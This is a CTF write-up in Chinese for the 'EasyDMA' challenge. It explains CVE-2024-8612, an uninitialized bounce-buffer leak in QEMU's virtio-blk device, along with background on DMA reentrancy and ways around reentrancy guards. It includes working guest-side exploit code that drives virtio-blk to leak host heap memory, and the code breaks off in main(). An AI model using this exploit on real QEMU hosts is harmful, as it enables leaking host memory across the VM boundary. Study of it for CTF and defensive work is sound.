

# 题目信息

```
EasyDMA
[EasyDMA.zip](https://drive.google.com/file/d/1GKWnnZ76NCWQ-5E0M2auBs_EHKr8cfNj/view?usp=sharing)

nc 1.95.46.90 9999

hints:
https://www.youtube.com/watch?v=wL3LK9Dp4os
```


# 题目分析

源码：[qemu-v8.0.0-rc2](https://github.com/qemu/qemu/archive/refs/tags/v8.0.0-rc2.tar.gz)

qemu启动参数：

```bash
timeout --foreground 300 ./qemu-system-x86_64 \
   -L pc-bios \
   -m 1024 \
   -kernel bzImage \
   -initrd rootfs.cpio \
   -drive file=null-co://,if=none,id=mydisk \
   -device virtio-blk-pci,drive=mydisk,ioeventfd=off \
   -device readflag \
   -append "priority=low console=ttyS0" \
   -monitor /dev/null \
   -nographic
```

可以看到这里添加了readflag和virtio-blk-pci两个设备。


## readflag

设备相关函数：


```bash
~ # lspci | grep 1234:11e8
00:05.0 Class 00ff: 1234:11e8
~ # cat /proc/iomem | grep 05.0
  fea00000-feafffff : 0000:00:05.0
```

设备只有`mmio_write`，且只有2个功能：

1. `addr==8 && size==8`

   ```c
   *(_QWORD *)(opaque + 0xBA8) = value;
   ```

2. `addr==0 && size==4 && val<=0xfff`

   ```c
       len = value;
       buf = (char *)malloc(value);
       if ( buf )
       {
         fd = fopen64("flag", "r");
         _fd = fd;
         if ( fd )
         {
           readn = fread(buf, 1uLL, (unsigned int)(len - 1), fd);
           if ( readn )
             buf[readn] = 0;
           else
             puts("No data read from the file.");
           free(buf);
           fclose(_fd);
         }
         else
         {
           perror("Error opening file");
           free(buf);
         }
       }
       else
       {
         perror("Memory allocation failed");
       }
   ```

功能1无用，功能2把flag读入堆内存，推测应该是要结合一个信息泄露的洞带出flag。

此外给的flag文件内容为：`Congratulations! This is your flag: ACTF{**REDACTED**}`，因此堆管理指针不会覆盖flag字符串。


## virtio-blk-pci（CVE-2024-8612）

接下来以virtio-blk、dma、information leak为关键词搜索可以发现[CVE-2024-8612](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-8612)，题目的qemu版本为8.0.0-rc2，在漏洞影响范围内。

> A flaw was found in QEMU, in the virtio-scsi, virtio-blk, and virtio-crypto devices. The size for virtqueue_push as set in virtio_scsi_complete_req / virtio_blk_req_complete / virito_crypto_req_complete could be larger than the true size of the data which has been sent to guest. Once virtqueue_push() finally calls dma_memory_unmap to ummap the in_iov, it may call the address_space_write function to write back the data. Some uninitialized data may exist in the bounce.buffer, leading to an information leak.
>
> 在 QEMU 的 virtio-scsi、virtio-blk 和 virtio-crypto 设备中发现一个缺陷。virtio_scsi_complete_req / virtio_blk_req_complete / virito_crypto_req_complete 中设置的 virtqueue_push 的大小可能大于已发送给客户机的实际数据大小。一旦 virtqueue_push() 最终调用 dma_memory_unmap 取消映射 in_iov，它可能会调用 address_space_write 函数写回数据。bounce.buffer 中可能存在一些未初始化的数据，导致信息泄露。

在virtio vring队列请求的处理过程中，会为desc描述的DMA buffer映射内存：

```c {hide=true}
/* This marks a buffer as continuing via the next field. */
#define VRING_DESC_F_NEXT       1
/* This marks a buffer as write-only (otherwise read-only). */
#define VRING_DESC_F_WRITE      2
/* This means the buffer contains a list of buffer descriptors. */
#define VRING_DESC_F_INDIRECT   4

struct vring_desc {
    uint64_t addr;  // dma gpa
    uint32_t len;   // dma length
    uint16_t flags;
    uint16_t next;
};

static void *virtqueue_split_pop(VirtQueue *vq, size_t sz)
{
    ...
    vring_split_desc_read(vdev, &desc, desc_cache, i);
    ...
    /* Collect all the descriptors */
    do {
        bool map_ok;

        if (desc.flags & VRING_DESC_F_WRITE) {
            map_ok = virtqueue_map_desc(vdev, &in_num, addr + out_num,
                                        iov + out_num,
                                        VIRTQUEUE_MAX_SIZE - out_num, true,
                                        desc.addr, desc.len); // 【2】
        } else {
            if (in_num) {
                virtio_error(vdev, "Incorrect order for descriptors");
                goto err_undo_map;
            }
            map_ok = virtqueue_map_desc(vdev, &out_num, addr, iov,
                                        VIRTQUEUE_MAX_SIZE, false,
                                        desc.addr, desc.len);
        }
    ...
}
  
static bool virtqueue_map_desc(VirtIODevice *vdev, unsigned int *p_num_sg,
                               hwaddr *addr, struct iovec *iov,
                               unsigned int max_num_sg, bool is_write,
                               hwaddr pa, size_t sz)
{
    ...
    while (sz) {
        hwaddr len = sz;
        ...
        iov[num_sg].iov_base = dma_memory_map(vdev->dma_as, pa, &len,
                                              is_write ?
                                              DMA_DIRECTION_FROM_DEVICE :
                                              DMA_DIRECTION_TO_DEVICE,
                                              MEMTXATTRS_UNSPECIFIED); // 【3】
        if (!iov[num_sg].iov_base) {
            virtio_error(vdev, "virtio: bogus descriptor or out of resources");
            goto out;
        }

        iov[num_sg].iov_len = len;
        addr[num_sg] = pa;
        ...
}
  
static inline void *dma_memory_map(AddressSpace *as,
                                   dma_addr_t addr, dma_addr_t *len,
                                   DMADirection dir, MemTxAttrs attrs)
{
    hwaddr xlen = *len;
    void *p;

    p = address_space_map(as, addr, &xlen, dir == DMA_DIRECTION_FROM_DEVICE,
                          attrs); // 【4】
    *len = xlen;
    return p;
}

```

`bounce.buffer`的申请路径如下：

```text
virtqueue_split_pop/virtqueue_packed_pop
  -> virtqueue_map_desc
    -> dma_memory_map
      -> address_space_map
```

1. `virtqueue_split_pop`：`virtqueue_split_pop`函数依次解析vring中的desc
   * `is_write = true ? desc.flags & VRING_DESC_F_WRITE : false`
   * `pa = desc.addr`
   * `sz = desc.len`
2. `virtqueue_map_desc`：为desc映射内存
   * `iov[num_sg].iov_base = dma_memory_map();`
   * `iov[num_sg].iov_len = len;`
   * `addr[num_sg] = pa;`
3. `dma_memory_map`
4. `address_space_map`

在`address_space_map`中如果`!memory_acess_is_direct`条件成立，即DMA地址为MMIO地址等情况，就会调用`qemu_memalign`为`bounce.buffer`申请内存，且**当`desc->flags |= VRING_DESC_F_WRITE`时没有初始化`bounce.buffer`**：

```c {hide=true}
// softmmu\physmem.c
typedef struct {
    MemoryRegion *mr;
    void *buffer;
    hwaddr addr;
    hwaddr len;
    bool in_use;
} BounceBuffer;

static BounceBuffer bounce;

/* Map a physical memory region into a host virtual address.
 * May map a subset of the requested range, given by and returned in *plen.
 * May return NULL if resources needed to perform the mapping are exhausted.
 * Use only for reads OR writes - not for read-modify-write operations.
 * Use cpu_register_map_client() to know when retrying the map operation is
 * likely to succeed.
 */
void *address_space_map(AddressSpace *as,
                        hwaddr addr,
                        hwaddr *plen,
                        bool is_write,
                        MemTxAttrs attrs)
{
    hwaddr len = *plen;
    hwaddr l, xlat;
    MemoryRegion *mr;
    FlatView *fv;

    if (len == 0) {
        return NULL;
    }

    l = len;
    RCU_READ_LOCK_GUARD();
    fv = address_space_to_flatview(as);
    mr = flatview_translate(fv, addr, &xlat, &l, is_write, attrs);

    if (!memory_access_is_direct(mr, is_write)) { // 条件成立
        if (qatomic_xchg(&bounce.in_use, true)) {
            *plen = 0;
            return NULL;
        }
        /* Avoid unbounded allocations */
        l = MIN(l, TARGET_PAGE_SIZE);
        bounce.buffer = qemu_memalign(TARGET_PAGE_SIZE, l); // 为bounce.buffer申请长度为desc->len的缓冲区
        bounce.addr = addr; // desc->addr
        bounce.len = l; // desc->len

        memory_region_ref(mr);
        bounce.mr = mr;
        if (!is_write) { // !!!当 desc->flags |= VRING_DESC_F_WRITE 时没有初始化bounce.buffer
            flatview_read(fv, addr, MEMTXATTRS_UNSPECIFIED,
                               bounce.buffer, l);
        }

        *plen = l;
        return bounce.buffer;
    }


    memory_region_ref(mr);
    *plen = flatview_extend_translation(fv, addr, len, mr, xlat,
                                        l, is_write, attrs);
    fuzz_dma_read_cb(addr, *plen, mr);
    return qemu_ram_ptr_length(mr->ram_block, xlat, plen, true);
}

// include\exec\memory.h
static inline bool memory_access_is_direct(MemoryRegion *mr, bool is_write)
{
    if (is_write) {
        return memory_region_is_ram(mr) && !mr->readonly &&
               !mr->rom_device && !memory_region_is_ram_device(mr);
    } else {
        return (memory_region_is_ram(mr) && !memory_region_is_ram_device(mr)) ||
               memory_region_is_romd(mr);
    }
}
```

当完成vring中的请求后，会取消对desc描述的dma内存映射并将`bounce.buffer`的内容写回，触发路径：

```
virtio_blk_handle_request
  -> virtio_blk_req_complete
    -> virtqueue_push
      -> virtqueue_fill
        -> virtqueue_unmap_sg
          -> dma_memory_unmap
            -> address_space_unmap
              -> address_space_write
```

`virtio_blk_handle_request`函数中，当`type`不合法时，会直接调用`virtio_blk_req_complete`，而此时已经设置了`req->in_len`：

```c {hide=true}
static int virtio_blk_handle_request(VirtIOBlockReq *req, MultiReqBuffer *mrb)
{
    uint32_t type;
    struct iovec *in_iov = req->elem.in_sg;
    struct iovec *out_iov = req->elem.out_sg;
    unsigned in_num = req->elem.in_num;
    unsigned out_num = req->elem.out_num;
    ...
    req->in_len = iov_size(in_iov, in_num);
    ...
    /* VIRTIO_BLK_T_OUT defines the command direction. VIRTIO_BLK_T_BARRIER
     * is an optional flag. Although a guest should not send this flag if
     * not negotiated we ignored it in the past. So keep ignoring it. */
    switch (type & ~(VIRTIO_BLK_T_OUT | VIRTIO_BLK_T_BARRIER)) {
    ...
     default:
        virtio_blk_req_complete(req, VIRTIO_BLK_S_UNSUPP); // 【2】
        virtio_blk_free_request(req);
    }
    return 0;
}

static void virtio_blk_req_complete(VirtIOBlockReq *req, unsigned char status)
{
    ...
    virtqueue_push(req->vq, &req->elem, req->in_len); // 【3】
    ...
}

void virtqueue_push(VirtQueue *vq, const VirtQueueElement *elem,
                    unsigned int len)
{
    ...
    virtqueue_fill(vq, elem, len, 0); // 【4】
    ...
}

/* Called within rcu_read_lock().  */
void virtqueue_fill(VirtQueue *vq, const VirtQueueElement *elem,
                    unsigned int len, unsigned int idx)
{
    ...
    virtqueue_unmap_sg(vq, elem, len); // 【5】
    ...
}

static void virtqueue_unmap_sg(VirtQueue *vq, const VirtQueueElement *elem,
                               unsigned int len)
{
    AddressSpace *dma_as = vq->vdev->dma_as;
    unsigned int offset;
    int i;

    offset = 0;
    for (i = 0; i < elem->in_num; i++) {
        size_t size = MIN(len - offset, elem->in_sg[i].iov_len); // ---> access_len

        dma_memory_unmap(dma_as, elem->in_sg[i].iov_base,
                         elem->in_sg[i].iov_len,
                         DMA_DIRECTION_FROM_DEVICE, size); // 【6】

        offset += size;
    }

    for (i = 0; i < elem->out_num; i++)
        dma_memory_unmap(dma_as, elem->out_sg[i].iov_base,
                         elem->out_sg[i].iov_len,
                         DMA_DIRECTION_TO_DEVICE,
                         elem->out_sg[i].iov_len);
}

static inline void dma_memory_unmap(AddressSpace *as,
                                    void *buffer, dma_addr_t len,
                                    DMADirection dir, dma_addr_t access_len)
{
    address_space_unmap(as, buffer, (hwaddr)len,
                        dir == DMA_DIRECTION_FROM_DEVICE, access_len); // 【7】
}
```

当`access_len`与`bounce.buffer`中实际内容长度不匹配时就会读取到未初始化数据：

```c {hide=true}
void address_space_unmap(AddressSpace *as, void *buffer, hwaddr len,
                         bool is_write, hwaddr access_len)
{
    ...
    if (is_write) {
        address_space_write(as, bounce.addr, MEMTXATTRS_UNSPECIFIED,
                            bounce.buffer, access_len); // 【8】当access_len与bounce.buffer中实际内容长度不匹配时就会读取到未初始化数据
    }
    qemu_vfree(bounce.buffer);
    bounce.buffer = NULL;
    ...
}
```

`access_len`由`req->in_len-offset`和`req->elem->in_sg[i].iov_len`中较小者决定（`req->in_len`其实就是`req->elem.in_sg[i].iov_len`之和）：

```c {hide=true}
// hw\virtio\virtio.c
static void virtqueue_unmap_sg(VirtQueue *vq, const VirtQueueElement *elem,
                               unsigned int len)
{
    ...
    size_t size = MIN(len - offset, elem->in_sg[i].iov_len);
    ...
}
    

// util\iov.c
size_t iov_size(const struct iovec *iov, const unsigned int iov_cnt)
{
    size_t len;
    unsigned int i;

    len = 0;
    for (i = 0; i < iov_cnt; i++) {
        len += iov[i].iov_len;
    }
    return len;
}
```

最最重要的一点是，**virtio-blk在处理vring的dma过程中没有可重入保护，导致在`dma_memory_unmap`函数能够重入，将未初始化的堆内存写回mmio内存**，从而导致信息泄露。


# DMA可重入漏洞（DMA Reentrancy）

这里需要先了解补充一下DMA可重入漏洞的知识。

参考：[HEXACON2024 - DMAKiller: DMA to Escape from QEMU/KVM by Yongkang Jia, Yiming Tao & Xiao Lei](https://www.youtube.com/watch?v=wL3LK9Dp4os)

## 原理

DMA可重入漏洞的原理是，用户除了可以通过映射内存直接访问mmio内存，还可以通过其他方式调用DMA函数间接访问mmio内存，从而绕过一些检查，或导致UAF\DoubleFree等非预期行为。

常见的DMA可重入情形如下：


> [!tips]
>
> **例题：QWB2021 EzQtest**
>
> 该题中由于没有严格限制`opaque->gpa`的大小范围，故能够对mmio映射内存进行读写。在调用`mmio_write(0x28, val)`时，`free`之前还会再执行一次`cpu_physical_memory_rw`往`mmio`映射内存写值，从而调用`mmio_write(0x40, val)`修改`opaque->idx`绕过检查，造成UAF或者double free：
>
> ```c {hide=true}
> void __fastcall ctf_mmio_write(struct_opaque *opaque, hwaddr addr, uint64_t val, unsigned int size)
> {
>     ...
>       case 0x10uLL:                             // 0x10: set gpa
>         opaque->gpa = val;
>         break;
>     ...
>       case 0x28uLL:                             // 0x28: free item
>         v4 = opaque->idx;
>         if ( v4 <= 0xF )
>         {
>           v5 = &opaque->field_0[0x18 * v4];
>           if ( *((_QWORD *)v5 + 0x14C) == 1LL )
>           {
>             size_1 = *((_QWORD *)v5 + 0x14D);
>             buf_2 = (void *)*((_QWORD *)v5 + 0x14E);
>             gpa_1 = opaque->mask & opaque->gpa;
>             _mm_mfence();
>             v9 = (MemTxAttrs_0)1;
>             cpu_physical_memory_rw((AddressSpace_0 *)&opaque->field_0[0x228], gpa_1, v9, buf_2, size_1, 1); // dma_write
>             free(*((void **)v5 + 0x14E)); // free
>             flag = &opaque->field_0[0x18 * opaque->idx];
>             if ( *((_QWORD *)flag + 0x14C) == 1LL ) // e.g 修改idx=0，但是free(chunk1)，此时检查的是chunk0->is_init，并把chunk0的所有字段清空，chunk1构成UAF
>             {
>               size_2 = *((_QWORD *)flag + 0x14D) == 0LL;
>               *((_QWORD *)flag + 0x14C) = 0LL;
>               if ( !size_2 )
>                 *((_QWORD *)flag + 0x14D) = 0LL;
>             }
>           }
>         }
>         break;
> ```

## 保护措施

针对可重入漏洞目前主要的保护措施为添加`MemReentrancyguard`。

举例1：mmio -> dma ->mmio


1. 开始mmio访问时，设置`engaged_in_io = true`
2. 假如此时调用`acess_fn`通过dma再次访问mmio，则在判断`engaged_in_io == true`时将触发`MEMTX_ACCESS_ERROR`
3. mmio访问结束时，再设置`engaged_in_io = false`

举例2：bh -> dma -> mmio



1. 在调用callback函数前先设置`engaged_in_io = true`
2. 假如此时通过callback函数再次进行mmio，则在判断`engaged_in_io == true`时将触发`trace_reentrant_aio`
3. bh结束时设置`engaged_in_io = last_engaged_in_io = false`

类似地，通过添加`MemReentrancyguard`能够封杀大部分的DMA可重入漏洞。

## 绕过方法

可以看到上述举例中`MemReentrancyguard`能够起作用是因为`mr->dev`和`bh`这两个**状态结构体是全局唯一的**。假如此时有**两个不同的状态结构体但都通过同样的handler function去处理**，那么我们就可以绕过对状态结构体中`MemReentrancyguard`的检查了。

Demo：

1. 设置`dev1->MemReentrancyguard = true`
2. 调用dma对`dev2`进行mmio访问
3. 检查`dev2->MemReentrancyguard  == false`，顺利通过检查

**Virtio设备就存在这种情况**：


通过qemu monitor的`info qom-tree`命令可以看到qom的情况，以virtio-gpu设备为例，`virtio-gpu-pci`和`virtio-gpu-device`实际使用的是两个不同的virtio设备结构体，也就是说通过直接映射内存进行mmio和通过dma进行mmio的状态不同步，导致DMA可重入：


本题中也可以看到，`virtio-blk-pci`和`virtio-blk-device`情况类似：

```bash
(qemu) info qom-tree
/machine (pc-i440fx-8.0-machine)
  /peripheral-anon (container)
    /device[0] (virtio-blk-pci) # <-----
      /bus master container[0] (memory-region)
      /bus master[0] (memory-region)
      /msix-pba[0] (memory-region)
      /msix-table[0] (memory-region)
      /virtio-backend (virtio-blk-device) # <-----
      /virtio-blk-pci-msix[0] (memory-region)
      /virtio-bus (virtio-pci-bus)
      /virtio-pci-common-virtio-blk[0] (memory-region) # <-----
      /virtio-pci-device-virtio-blk[0] (memory-region) # <-----
      /virtio-pci-isr-virtio-blk[0] (memory-region) # <-----
      /virtio-pci-notify-pio-virtio-blk[0] (memory-region)
      /virtio-pci-notify-virtio-blk[0] (memory-region) # <-----
      /virtio-pci[0] (memory-region)
      /virtio-pci[1] (memory-region)
```

> [!note]
>
> **但本题中没用到Virtio设备有多个状态结构的特性。**
>
> 本题是因为virtio-blk在vring的dma过程中没有可重入保护，导致在`dma_memory_unmap`函数中能重入，将未初始化的堆内存写回mmio内存，导致信息泄露。

# 解题过程

## 初始化virtio-blk设备

### 结构定义

参考qemu源码（也可以参考[virtio1.1 spec](https://docs.oasis-open.org/virtio/virtio/v1.1/cs01/virtio-v1.1-cs01.html#x1-90002)）：

```c
/* Common configuration */
#define VIRTIO_PCI_CAP_COMMON_CFG    1
/* Notifications */
#define VIRTIO_PCI_CAP_NOTIFY_CFG    2
/* ISR access */
#define VIRTIO_PCI_CAP_ISR_CFG        3
/* Device specific configuration */
#define VIRTIO_PCI_CAP_DEVICE_CFG    4
/* PCI configuration access */
#define VIRTIO_PCI_CAP_PCI_CFG        5
/* Additional shared memory capability */
#define VIRTIO_PCI_CAP_SHARED_MEMORY_CFG 8

/* This is the PCI capability header: */
struct virtio_pci_cap {
    uint8_t cap_vndr;   /* Generic PCI field: PCI_CAP_ID_VNDR */
    uint8_t cap_next;   /* Generic PCI field: next ptr. */
    uint8_t cap_len;    /* Generic PCI field: capability length */
    uint8_t cfg_type;   /* Identifies the structure. */
    uint8_t bar;        /* Where to find it. */
    uint8_t id;         /* Multiple capabilities of the same type */
    uint8_t padding[2]; /* Pad to full dword. */
    uint32_t offset;    /* Offset within bar. */
    uint32_t length;    /* Length of the structure, in bytes. */
};

/* Fields in VIRTIO_PCI_CAP_COMMON_CFG: */
struct virtio_pci_common_cfg {
    /* About the whole device. */
    uint32_t device_feature_select; /* read-write */
    uint32_t device_feature;        /* read-only */
    uint32_t guest_feature_select;  /* read-write */
    uint32_t guest_feature;         /* read-write */
    uint16_t msix_config;           /* read-write */
    uint16_t num_queues;            /* read-only */
    uint8_t device_status;          /* read-write */
    uint8_t config_generation;      /* read-only */

    /* About a specific virtqueue. */
    uint16_t queue_select;          /* read-write */
    uint16_t queue_size;            /* read-write, power of 2. */
    uint16_t queue_msix_vector;     /* read-write */
    uint16_t queue_enable;          /* read-write */
    uint16_t queue_notify_off;      /* read-only */
    uint32_t queue_desc_lo;         /* read-write */
    uint32_t queue_desc_hi;         /* read-write */
    uint32_t queue_avail_lo;        /* read-write */
    uint32_t queue_avail_hi;        /* read-write */
    uint32_t queue_used_lo;         /* read-write */
    uint32_t queue_used_hi;         /* read-write */
};

/* Status byte for guest to report progress, and synchronize features. */
/* We have seen device and processed generic fields (VIRTIO_CONFIG_F_VIRTIO) */
#define VIRTIO_CONFIG_S_ACKNOWLEDGE 1
/* We have found a driver for the device. */
#define VIRTIO_CONFIG_S_DRIVER      2
/* Driver has used its parts of the config, and is happy */
#define VIRTIO_CONFIG_S_DRIVER_OK   4
/* Driver has finished configuring features */
#define VIRTIO_CONFIG_S_FEATURES_OK 8
/* Device entered invalid state, driver must reset it */
#define VIRTIO_CONFIG_S_NEEDS_RESET 0x40
/* We've given up on this device. */
#define VIRTIO_CONFIG_S_FAILED      0x80

#define VIRTIO_QUEUE_SIZE           0

struct vring_desc {
    uint64_t addr;
    uint32_t len;
    uint16_t flags;
    uint16_t next;
};

struct vring_avail {
    uint16_t flags;
    uint16_t idx;
    uint16_t ring[];
};

/* uint32_t is used here for ids for padding reasons. */
struct vring_used_elem {
    /* Index of start of used descriptor chain. */
    uint32_t id;
    /* Total length of the descriptor chain which was used (written to) */
    uint32_t len;
};

struct vring_used {
    uint16_t flags;
    uint16_t idx;
    vring_used_elem_t ring[];
};
```


### mmio映射

```c
    virtio_mmio = mmio_init((void *)VIRTIO_BLK_GVA, 0x40000, "/sys/devices/pci0000:00/0000:00:04.0/resource4");
    printf("[*] virtio_mmio: %p\n", virtio_mmio);
```


### 读取配置信息

目的是获取`virtio_common`和`virtio_notify`的mmio地址。

```c
    struct virtio_pci_cap *cap = NULL;
    uint8_t *config = malloc(0x1000);
    int fd = open("/sys/devices/pci0000:00/0000:00:04.0/config", O_RDONLY);
    if(fd < 0){
        perror("[-] failed to open virtio-blk config.");
    }
    int bytes_read = read(fd, config, 0x1000);
    if(bytes_read <= 0){
        perror("[-] failed to read virtio-blk config.");
    }
    close(fd);

    uint8_t cap_ptr = config[0x34];
    while(cap_ptr != 0){
        if(config[cap_ptr] != 0x9) { // vndr
            cap_ptr = config[cap_ptr+1]; // next
            continue;
        }
        cap = (struct virtio_pci_cap *)&config[cap_ptr];
        switch(cap->cfg_type){
            case VIRTIO_PCI_CAP_COMMON_CFG:
                virtio_common_mmio = virtio_mmio + cap->offset;
                printf("[*] virtio_common_mmio: %p\n", virtio_mmio);
                break;
            case VIRTIO_PCI_CAP_NOTIFY_CFG:
                virtio_notify_mmio = virtio_mmio + cap->offset;
                printf("[*] virtio_notify_mmio: %p\n", virtio_mmio);
                break;
            default:
                break;
        }
        cap_ptr = cap->cap_next;
    }
    free(config);
    config = NULL;
```


### virtio设备重置及vqueue(vring)初始化

初始化流程主要参考：[Device Initialization](https://docs.oasis-open.org/virtio/virtio/v1.1/cs01/virtio-v1.1-cs01.html#x1-920001)

> The driver MUST follow this sequence to initialize a device:
>
> 1. Reset the device.
> 2. Set the ACKNOWLEDGE status bit: the guest OS has noticed the device.
> 3. Set the DRIVER status bit: the guest OS knows how to drive the device.
> 4. Read device feature bits, and write the subset of feature bits understood by the OS and driver to the device. During this step the driver MAY read (but MUST NOT write) the device-specific configuration fields to check that it can support the device before accepting it.
> 5. Set the FEATURES_OK status bit. The driver MUST NOT accept new feature bits after this step.
> 6. Re-read *device status* to ensure the FEATURES_OK bit is still set: otherwise, the device does not support our subset of features and the device is unusable.
> 7. Perform device-specific setup, including discovery of virtqueues for the device, optional per-bus setup, reading and possibly writing the device’s virtio configuration space, and population of virtqueues.
> 8. Set the DRIVER_OK status bit. At this point the device is “live”.

qemu实现参考：

* [test_basic](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/virtio-blk-test.c#L117)
* [qvirtio_start_device](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/libqos/virtio.c#L444)
* [qvirtio_blk_init](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/fuzz/virtio_blk_fuzz.c#L36)
* [qvring_init](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/libqos/virtio.c#L239)
* [set_queue_address](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/libqos/virtio-pci-modern.c#L202)

```c
    /* reset device */
    common_cfg = (struct virtio_pci_common_cfg *)virtio_common_mmio;
    uint8_t device_status = 0;

    // 1. qvirtio_reset
    mmio_write8(&common_cfg->device_status, device_status);
    // 2. qvirtio_set_acknowledge
    device_status |= VIRTIO_CONFIG_S_ACKNOWLEDGE;
    mmio_write8(&common_cfg->device_status, device_status);
    // 3. qvirtio_set_driver
    device_status |= VIRTIO_CONFIG_S_DRIVER;
    mmio_write8(&common_cfg->device_status, device_status);
    // 4. qvirtio_set_features
    mmio_write32(&common_cfg->guest_feature_select, 0);
    mmio_write32(&common_cfg->guest_feature, 0); // disable all features
    // 5. qvirtio_set_features_ok
    device_status |= VIRTIO_CONFIG_S_FEATURES_OK;
    mmio_write8(&common_cfg->device_status, device_status);

    assert(mmio_read8(&common_cfg->device_status) & VIRTIO_CONFIG_S_FEATURES_OK);

    // alloc dma memory
    int mem_fd = open("/dev/mem", O_RDWR | O_SYNC);
    if (mem_fd < 0) {
        perror("[-] failed to open /dev/mem.");
    }
    dma_mem = mmap((void*)DMA_GVA, 0x3000, PROT_READ|PROT_WRITE, MAP_SHARED, mem_fd, DMA_GPA);
    if (dma_mem == (volatile uint8_t *) -1) {
        perror("[-] failed to mmap dma mem.");
    }
    printf("[*] dma_mem: %p\n", dma_mem);
    dma_data = dma_mem + 0x1000;

    // 6. init queue
    queue_desc = (struct vring_desc *)dma_mem;
    queue_avail = (struct vring_avail *)((uint8_t *)dma_mem + 0x100);
    queue_used = (struct vring_used *)((uint8_t *)dma_mem + 0x200);

    mmio_write16(&common_cfg->queue_select, 0);
    mmio_write16(&common_cfg->queue_size, VIRTIO_QUEUE_SIZE);
    mmio_write32(&common_cfg->queue_desc_lo, DMA_GPA);
    mmio_write32(&common_cfg->queue_avail_lo, DMA_GPA + 0x100);
    mmio_write32(&common_cfg->queue_used_lo, DMA_GPA + 0x200);
    mmio_write16(&common_cfg->queue_enable, 1);

    // 7. qvirtio_set_driver_ok
    device_status |= VIRTIO_CONFIG_S_DRIVER_OK;
    mmio_write8(&common_cfg->device_status, device_status);
```


## 构造vqueue(vring)请求

主要参考：[The Virtqueue Descriptor Table](https://docs.oasis-open.org/virtio/virtio/v1.1/cs01/virtio-v1.1-cs01.html#x1-320005)

qemu实现参考：

* [test_basic](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/virtio-blk-test.c#L117)
* [virtio_blk_request](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/virtio-blk-test.c#L85)
* [qvirtqueue_add](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/libqos/virtio.c#L322)
* [qvirtqueue_kick](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/libqos/virtio.c#L368)

由于`VIRTIO_BLK_GPA`为mmio地址，故virtio-blk处理req请求时将为`VIRTIO_BLK_GPA`申请`bounce.buffer`。由于设置了`VRING_DESC_F_WRITE`标志，故不会对`bounce.buffer`进行初始化，且`access_len = 0xfff`。

设置错误的`req->type = 0xff`，直接调用`virtio_blk_req_complete`，由于virtio-blk设备并无重入防护（vring处理过程中不能再次访问mmio内存），故unmap时可以把`bounce.buffer`中未初始化的内容写回`VIRTIO_BLK_GPA`内存。

此时再从`VIRTIO_BLK_GPA`映射的内存读即`bounce.buffer`中未初始化的内容。

```c
#define mb() {__asm__ volatile("mfence":::"memory");}
void init_vring() {
    QVirtioBlkReq *req = (QVirtioBlkReq *)dma_data;
    req->type = 0xff; // invalid type
    req->ioprio = 1;
    req->sector = 0;

    queue_desc[0].addr = (uint64_t)req;
    queue_desc[0].len = 0x10;
    queue_desc[0].flags = VRING_DESC_F_NEXT;
    queue_desc[0].next = 1;

    queue_desc[1].addr = VIRTIO_BLK_GPA;
    queue_desc[1].len = 0xfff;
    queue_desc[1].flags = VRING_DESC_F_NEXT|VRING_DESC_F_WRITE;
    queue_desc[1].next = 2;

    queue_desc[2].addr = (uint64_t)dma_data + 0x1000;
    queue_desc[2].len = 1;
    queue_desc[2].flags = VRING_DESC_F_WRITE;
    queue_desc[2].next = 0;

    queue_avail->ring[0] = 0;
    queue_avail->idx = 1;
    queue_avail->flags = VRING_AVAIL_F_NO_INTERRUPT;
    mb();
}
```


## notify触发漏洞

参考：

* [qvirtqueue_kick](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/libqos/virtio.c#L368)
* [virtqueue_kick](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/libqos/virtio-pci-modern.c#L252)
* [virtqueue_setup](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/libqos/virtio-pci-modern.c#L228)

映射readflag设备mmio内存，由大到小申请堆块（会不断切分合并堆块）将flag字符串留在堆内存中，而后通过信息泄露漏洞读出未初始化的内存，就有可能读到残留的flag。

```c
void spray() {
    for (size_t i = 0xffc; i > 0x20; i-=4)
        mmio_write32(readflag_mmio, i);
}

void hexdump(void *addr, size_t size){
    // dump 4 bytes per time
    for (size_t i = 0; i < size; i+=4) {
        uint32_t val = *(volatile uint32_t*)(addr+i);
        for (int j = 0; j < 4; j++) {
            uint8_t chr = (val >> (j*8)) & 0xff;
            if (chr >= 0x20 && chr <= 0x7e) {
                putchar(chr);
            } else {
                putchar('?');
            }
        }
    }
}

int main() {
    init_virtio();
    init_vring();

